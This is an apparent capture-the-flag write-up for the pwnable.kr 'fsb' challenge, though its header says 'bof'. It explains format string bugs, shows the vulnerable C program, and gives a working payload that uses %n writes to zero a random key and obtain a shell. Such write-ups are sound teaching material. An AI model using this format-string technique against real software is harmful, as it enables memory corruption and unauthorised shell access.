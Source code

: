 # bof

## Description

fsb - 20 pt 

> Isn't FSB almost obsolete in computer security? <br>
> Anyway, have fun with it :) <br><br>
> ssh fsb@pwnable.kr -p2222 (pw:guest)

## Solution

### Background

#### Format String Exploits

In C, some functions take "format specifier" as a first argument - a string that tells the function how to parse the other arguments.

Sometimes, programs take user input and give it as the format string to a function, like `prinft`. When they do so they make it possible for the user to leak data (by giving specifiers, such as `%x %d` as their input) or even write data (by utilitzing the `%n` specifier).

### The Challenge


We are given a binary, and the matching source code:

```c
#include <stdio.h>
#include <alloca.h>
#include <fcntl.h>

unsigned long long key;
char buf[100];
char buf2[100];

int fsb(char** argv, char** envp){
	char* args[]={"/bin/sh", 0};
	int i;

	char*** pargv = &argv;
	char*** penvp = &envp;
        char** arg;
        char* c;
        for(arg=argv;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        for(arg=envp;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
	*pargv=0;
	*penvp=0;

	for(i=0; i<4; i++){
		printf("Give me some format strings(%d)\n", i+1);
		read(0, buf, 100);
		printf(buf);
	}

	printf("Wait a sec...\n");
        sleep(3);

        printf("key : \n");
        read(0, buf2, 100);
        unsigned long long pw = strtoull(buf2, 0, 10);
        if(pw == key){
                printf("Congratz!\n");
                execve(args[0], args, 0);
                return 0;
        }

        printf("Incorrect key \n");
	return 0;
}

int main(int argc, char* argv[], char** envp){

	int fd = open("/dev/urandom", O_RDONLY);
	if( fd==-1 || read(fd, &key, 8) != 8 ){
		printf("Error, tell admin\n");
		return 0;
	}
	close(fd);

	alloca(0x12345 & key);

	fsb(argv, envp); // exploit this format string bug!
	return 0;
}
```

The program reads 8 random bytes into the `key` variable. It then allocates a random amount of memory on the stack, and calls the `fsb` function. There, the all the command line arguments and environment variable are nulled out. After that, we are asked 4 times to give format string (of length 100), and they are printed out. Finally, after waiting 3 seconds, the program prompts us to enter the key, and if it matches the random generated key - we are given a shell.


### Exploit

After using leaking some address and playing around with gdb, I found out that the 14th argument (relative to the `printf` call) points to the 20th argument.

And so, if we use the `%n` format specifier, we can write an arbitrary value to the 20th argument - which gives us the following plan:

* write the address of the first 4 bytes of `key` to the 20th argument
* write 0 to the first half of `key`
* repeat but this time on the other half

Yeilding `key` becomming zero.

```
%134520920xAAAAAAAA%14$n
%20$n
%134520920xAAAAAAAAAAAA%14$n
%20$n
0
```

```
Have you ever saw an example of utilizing [n] format character?? :(
```